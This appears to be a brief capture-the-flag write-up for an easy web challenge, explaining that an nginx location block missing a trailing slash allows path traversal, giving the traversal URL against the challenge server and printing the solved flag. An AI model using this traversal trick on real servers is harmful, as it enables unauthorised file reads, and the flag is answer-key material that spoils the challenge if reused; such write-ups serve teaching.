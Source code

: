 # Stage 4 - travel - web - easy

## Challenge

Fun climbing up: http://108.61.211.185:8081/

## Solution

The webpage results nginx configuration.

The nginx is misconfigured in `location` section. It does not end with a `/` and as a result of that allows path traversal.

```
http://108.61.211.185:8081/flag../flag
```

## Links
* https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/

## Flag
```
junior-the_easy_way_up
```
